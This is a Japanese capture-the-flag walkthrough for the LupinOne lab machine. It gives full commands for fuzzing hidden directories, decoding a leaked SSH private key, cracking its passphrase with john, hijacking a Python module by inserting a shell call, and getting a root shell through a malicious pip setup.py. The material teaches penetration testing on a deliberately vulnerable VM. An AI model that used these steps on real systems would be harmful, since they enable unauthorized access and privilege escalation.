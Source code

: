 ## LupinOne

### ポートスキャンまで同じ
- 22,80

### robots.txtを見る
- `curl http://$IP/robots.txt` 
- ヒントは`/~myfiles`で、ディレクトリの初めに~がついていることがわかる
- ~myfilesを見ても`404 error`になる  

### 隠しディレクトリを探す
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  "http://$IP/~FUZZ/"`
  - `-c`でカラー表示
  - `-z file,`は辞書の指定だが、わかりにくいので`-w`でいい
  - 初めは`--h?`をつけずに実行して関係なさそうなのを探す。ここでは404のステータスコードを返しているので`--hc 404`をつける
- 見つかったファイルは`secret` `myfiles`、時間が長いので2つ見つけたら止める
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  --hc 404 "http://$IP/~FUZZ/"`
  - helpを見て`--h?`を他に行や単語数、文字数でもやってみる 

### サイトを見る
- 見つけたリンクでサイトを翻訳して確認する。分かったことがある
  - このディレクトリに秘密鍵があること
  - 秘密鍵はfasttrackで解析する
  - ユーザ名はicex64であること
 
### fasttrackとは
- 移動してみる/usr/share/wordlists/fasttrackにある辞書
- `less fasttrack.txt`中身を見るとパスワードファイルらしい
- `wc fasttrack.txt`数が少ない


### さらに隠しファイルを探すが、その前に辞書を整理する
- wfuzzの特性上`#`も200(成功)に反応するので、`#`を辞書から削除する
  - `#`はフラグメント識別子と言って、サイト内の特定の場所に移動できる  
- `grep -v '^\s*#' /usr/share/wordlists/rockyou.txt > ./custom_rockyou.txt`
  - `-v`は`'^\s*#'`以外の正規表現を抜き出す
  -  `^#`は単語の最初が#であるのを抽出
  - `\s`はスペースのことで`\s*`はスペースが０以上あるものを抽出 

### 隠しファイルを探す
- 本来は辞書のファイルを使うが、ここで欲しいのは秘密鍵のファイルで拡張子が`.txt`なので、上で作った、パスワードファイルのrockyou.txtを使う
- また隠れファイルなので頭に`.`をつける。正直、これだけのヒントでFUZZの頭にドットをつけるのに気づくのは難しいと思う
- `wfuzz -c -z file,./custom_rockyou.txt --hc 400,404 "http://$IP/~secret/.FUZZ.txt"`
  - `--hc`statusの400,404は表示させない 

### textのダウンロード
- `curl http://$IP/~secret/.mysecret.txt > .mysecret2.txt`
- または
- `curl -OL http://$IP/~secret/.mysecret.txt`
  - `-L`リダイレクト,`-O`標準出力せずにダウンロードする 
- コピーする

### ファイルを分析
- ファイルを見た感じでは秘密鍵でなく、何かしらの暗号化されているのはわかるので調べる
- `cat .mysecret2.txt | grep -o . | sort | uniq | wc`
- 58なのでBase58

### CyberChefでdecode
- CyberChefでInputでコピーをペーストする
- 一番左のsearchに`from base`と入力する。
- 青色の背景になるのでFrom base32~From base92まで順に上からドロップ&ドラッグでRecipeに置いておくとOutputに文字化けしないのを試していく。文字化けしたらゴミ箱があるのでゴミ箱を押して消して次のOperationに進んでいく
- Base58でデコード(復号)する。そして、コピーする
- `cat > key`で貼り付ける。注意するのは、ペーストしたら改行してから、`ctrl + c`で抜ける
### 秘密鍵のPermissionを変更する
- `chmod 700 key`
- `chmod 777 key`にするとsshが繋がらない。これは秘密鍵は本来、所有者しか使うことができなので当然なので、それに合わせている

### パスフレーズの解析
- (1) コマンドを使う。とても簡単これだけでもいい
  - `ssh2john key > pass.txt` 
- 暗号解析
  - `sudo john pass.txt -wordlist=/usr/share/wordlists/fasttrack.txt`
  - パスフレーズが取得できる
  - `P@55w0rd!` 

### sshでアクセス
- `ssh -i key icex64@$IP`
  - パスフレーズの入力 

### システム内の調査
- `sudo -l`
  - `(arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py`
- icex64はパスワードなしでarseneとして/home/arsene/heist.pyファイルが実行できることがわかる。つまり実行することで、arseneになることができる
- heist.pyの中身を見る、これが何をしているか？
- Permissionから何がわかる？
- 本来なら、このpyファイルに書き込みたいが、できないのでwebbrowser関数の中に書き込む

### 攻撃アプローチ
- webbrowserがどこにあるか調べる
  - `locate webbrowser`
  - または
  - `find / -name '*webbrowser*' -type f -writable 2>/dev/null`
- webbrowserファイルを開く
  -  `nano /usr/lib/python3.9/webbrowser.py`
  -  import osの下に`os.system("/bin/bash")`を書き込む


### 別ユーザで権限取得
- `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py`
  - `-u`sudoをユーザを指定して実行する 
- arseneが使えるルートコマンドを調べる
  - `sudo -l` 
- pipコマンドが使える。GTFOBinsのSudoの部分を参考にする。pipはPythonのモジュールをインストールできるコマンド。なので、架空のモジュールを作ってpipを利用する
- 一時的なディレクトリを作って、そこにルートコマンドになれるpythonのセットファイルを作る。変数の設定時にはスペースを空けてはダメ
  - `cd /tmp`
  - `TF=$(mktemp -d)`
  - `echo $TF`
  - `echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh < $(tty) > $(tty) 2> $(tty)')" > $TF/setup.py`
    - os.execl('/bin ~ $(tty)') これをシングルクォーテーションひとつで書くとエラーになる。なぜかはわからん 
  - `ls $TF`
  - `sudo pip install $TF`

### ルートフラグの取得
- ルートシェルを奪取できた
- `cd /root`
- `cat root.txt`




